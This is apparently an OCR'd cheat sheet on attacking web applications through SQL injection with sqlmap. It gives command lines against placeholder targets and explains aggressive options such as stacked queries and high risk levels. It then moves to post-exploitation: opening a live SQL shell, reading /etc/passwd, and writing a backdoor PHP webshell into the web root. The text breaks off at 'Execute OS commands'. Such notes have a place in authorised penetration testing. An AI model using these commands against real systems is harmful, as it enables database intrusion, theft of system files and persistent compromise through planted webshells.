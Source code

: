 ### POST Example

```bash
sqlmap -u "http://target.com/login" --data="user=admin&pass=1" --dbs
```

---

### SQLMAP

```shell
sqlmap -u "http://sql-injection/exploit/stacked" --technique=S --dbms=PostgreSQL --risk=3 --level=5 --batch
```

#### Breakdown of the Options

## Option Purpose

- -u Target URL
- ?id=rug The vulnerable parameter id with test input rug
- --technique=S Only use Stacked queries (S)
- --dbms=PostgreSQL Assume backend is PostgreSQL (helps optimize payloads)
- --risk=3 --level=5 Enables more aggressive payloads and parameter coverage
- --batch Auto-confirms prompts for non-interactive use
- --time-sec=5 → helps detect time-based blind SQLi (e.g., via pg_sleep)
- --flush-session → forces sqlmap to retry scanning from scratch
- --data="username=rug" Sends this as the POST body
- -r: tells sqlmap to read a raw HTTP request file

By default, sqlmap tests all parameters (name, sort, order). If only one is vulnerable, you can narrow it down:

- -p name

Some apps reject POST without Content-Type: application/x-www-form-urlencoded. Add it like so:

- --headers="Content-Type: application/x-www-form-urlencoded"

Once sqlmap confirms a vulnerability, you can use:

```shell
sqlmap -u "http://target.url/?id=rug" --sql-shell
```

This gives you a live SQL shell — anything you type will be executed directly on the database. For example:

Read files from disk:

- --file-read=/etc/passwd

Write files (webshells, payloads):

- --file-write=backdoor.php --file-dest=/var/www/html/shell.php

Execute OS commands:
